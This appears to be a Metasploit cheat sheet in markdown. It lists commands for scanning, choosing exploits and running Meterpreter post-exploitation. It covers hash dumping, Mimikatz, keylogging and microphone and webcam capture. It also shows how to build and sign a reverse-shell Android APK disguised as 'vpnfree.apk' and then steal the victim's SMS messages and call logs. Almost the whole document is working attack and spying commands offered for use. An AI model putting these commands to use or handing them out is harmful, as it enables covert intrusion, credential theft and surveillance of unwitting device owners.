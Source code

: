 # MetaSploit

## Initialize
- Database settings: 
  - ```systemctl start postgresql```
  - ```msfdb init```
- Run
  - ```msfconsole```  
- Workspace
  - Create: ```workspace -a nasa``` 
  - Delete: ```workspace -d nsa```
  - Show: ```workspace```  
  - Go to a workspace: ``` workspace nasa``` 
- Session
  - ```sessions -l```
  - ```sessions -i 2```  

## Search
- Example
  - ```search type:exploit cve:2019```
  - ```search type:auxiliary cve:2019```
  - ```search platform:windows description:chrome```
  - ```search platform:android description:2019```
  - ```search platform:exploit description:samsung```
- Nmap
  - ```nmap -sV -oX output.xml 192.168.3.5```
  - ```searchsploit --nmap output.xml```

## Auxiliary
- Example
  - ```use  auxiliary/scanner/mongodb/mongodb_login```
  - ```set rhosts 192.168.1.0/24```
  - ```run```
- Web scanner path 
  - ```/usr/share/metasploit-framework/modules/auxiliary/scanner/http/```


## Exploit
- Change default payload
  - ```show payloads``` 
  - ```set payload windows/meterpreter/reverse_tcp```
- Change target
  - ```show targets```
  - ```set target 1```
- Add new exploit
  - Download exploit from *"exploit-db"* that contains *"This module requires metasploit"* in text & ```Class MetasploitModule``` in code
  - Add file to ```/root/.msf4/local```
  - Restart OS & Postgresql

## Meterprete
- Common
  - ```pwd``` & ```lpwd```
  - ```ls``` & ```lls```
  - ```download h.txt```
  - ```upload```
- Show SAM file
  - ```hashdump```
- Spy
  - ```record_mic -d 60```
  - ```webcam_snap```
  - ```screenshot```
  - ```arp```
  - ```netstat```
  - ```keyscan_start``` & ```keyscan_dump``` & ```keyscan_stop```
  - ```getuid```
  - ```sysinfo```
  - ```ipconfig```
- Mimikatz
  - ```load mimikatz```
  - ```help```
- Pcap
  - ```load sniffer```
  - ```help```
  - ```sniffer interfaces```
  - ```sniffer_start z packet_buffer 40```
  - ```sniffer_dump z test.pcap```
  - ```sniffer_stop```
- PE
  - ```getsystem```
- Process & Migrate
  - ```ps```
  - ```migrate 596```
    - 596 is PID of *service.exe* or *explorer.exe* - DLL Hijack for persistant


## msfvenom (Android)
- Create malware
  - ```msfvenum -p android/meterpreter/reverse_tcp -e shikata-ga-nai lhost=192.168.1.18 lport=443 R > /var/www/html/vpnfree.apk``` 
  - ```Keytool -genkey -v -keystore nss.keystore -alias nss -keyalg RSA -keysize 2048 -validity 100000```
  - ```jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore nss.keystore /var/www/html/vpnfree.apk nss```
- Listen in Kali (msfconsole)
  - ```use exploit/multi/handler```
  - ```set payload android/meterpreter/reverse_tcp```
  - ```set lhost 192.168.1.18```
  - ```set lport 443```
  - ```run -j```
- Exploit
  - ```sessions -l```
  - ```sessions -i 1```
  - ```dump_sms```
  - ```dump_calllog```
  - ```record_mic -d 15```
  - ```Webcam_snap```
  - ```webcam_snap -h```
  - ```webcam_stream```
  - ```app_list```
    - show mobile app's 
  - ```app_run```
    - run one of above app 
  - ```shell```
    - open mobile shell  
     


